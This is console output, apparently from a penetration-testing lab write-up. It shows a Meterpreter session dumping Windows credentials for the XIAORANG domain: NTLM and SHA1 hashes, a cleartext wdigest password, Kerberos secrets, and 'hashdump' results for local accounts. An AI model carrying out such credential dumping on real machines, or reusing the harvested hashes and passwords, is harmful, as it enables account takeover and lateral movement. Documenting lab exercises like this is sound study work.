 ```console
===============

Username     Domain    NTLM                              SHA1
--------     ------    ----                              ----
XR-DESKTOP$  XIAORANG  b92f7d73c4c8999eec7b07d1b004c6e1  26c017bd796c3cfc272294ae4320cdb15cd5d47d
yangmei      XIAORANG  25e42ef4cc0ab6a8ff9e3edbbda91841  6b2838f81b57faed5d860adaf9401b0edb269a6f

wdigest credentials
===================

Username     Domain    Password
--------     ------    --------
(null)       (null)    (null)
XR-DESKTOP$  XIAORANG  e0 9c a5 18 fd 56 a7 eb e5 18 47 c0 a8 41 6e d7 90 bf 27 b5 99 c1 56 4e 00 92 b4 5d d9 82 d9 e8 c0 17 fa d6 02 f6 18 18 3b b7 96 30
                        57 3c 5b 17 53 ee e5 09 d2 23 8a 2e a2 62 e0 f3 f2 47 34 2e 79 0d 04 8b 78 c9 19 c8 92 d6 42 71 96 02 3b 8d 78 aa 4f 64 7a df 08 6
                       6 e3 05 1d 5e 94 54 13 b4 32 9e 32 0a 40 0e 1a 80 f5 23 b6 69 09 21 75 cd e3 44 b1 22 77 70 57 1b b9 d6 4c 8a e3 17 42 8c b7 58 85
                       29 03 7e d2 39 62 b2 1c 3e d6 74 70 06 f1 2a 4d 88 35 34 41 d5 94 5d fb f0 00 83 a5 b3 3c 00 78 36 97 66 a7 d5 bb 1f c0 c9 2b 08 5f
                        a4 c7 18 72 a6 ab 69 a2 ce 1e fe 43 ba d5 18 41 42 28 fd c4 be e1 7c c2 96 01 85 3c a3 14 11 e2 4f e0 16 3b 19 8b 36 eb aa 2c 27 f
                       3 42 a7 1b fc 29 f1 0a cc d7 c5 a0 b9 32 6e dc 8d c8 80 11 2d ce
yangmei      XIAORANG  xrihGHgoNZQ

kerberos credentials
====================

Username     Domain        Password
--------     ------        --------
(null)       (null)        (null)
xr-desktop$  XIAORANG.LAB  e0 9c a5 18 fd 56 a7 eb e5 18 47 c0 a8 41 6e d7 90 bf 27 b5 99 c1 56 4e 00 92 b4 5d d9 82 d9 e8 c0 17 fa d6 02 f6 18 18 3b b7 9
                           6 30 57 3c 5b 17 53 ee e5 09 d2 23 8a 2e a2 62 e0 f3 f2 47 34 2e 79 0d 04 8b 78 c9 19 c8 92 d6 42 71 96 02 3b 8d 78 aa 4f 64 7a
                            df 08 66 e3 05 1d 5e 94 54 13 b4 32 9e 32 0a 40 0e 1a 80 f5 23 b6 69 09 21 75 cd e3 44 b1 22 77 70 57 1b b9 d6 4c 8a e3 17 42
                           8c b7 58 85 29 03 7e d2 39 62 b2 1c 3e d6 74 70 06 f1 2a 4d 88 35 34 41 d5 94 5d fb f0 00 83 a5 b3 3c 00 78 36 97 66 a7 d5 bb 1
                           f c0 c9 2b 08 5f a4 c7 18 72 a6 ab 69 a2 ce 1e fe 43 ba d5 18 41 42 28 fd c4 be e1 7c c2 96 01 85 3c a3 14 11 e2 4f e0 16 3b 19
                            8b 36 eb aa 2c 27 f3 42 a7 1b fc 29 f1 0a cc d7 c5 a0 b9 32 6e dc 8d c8 80 11 2d ce
xr-desktop$  XIAORANG.LAB  (null)
yangmei      XIAORANG.LAB  xrihGHgoNZQ


meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:48f6da83eb89a4da8a1cc963b855a799:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter >
```

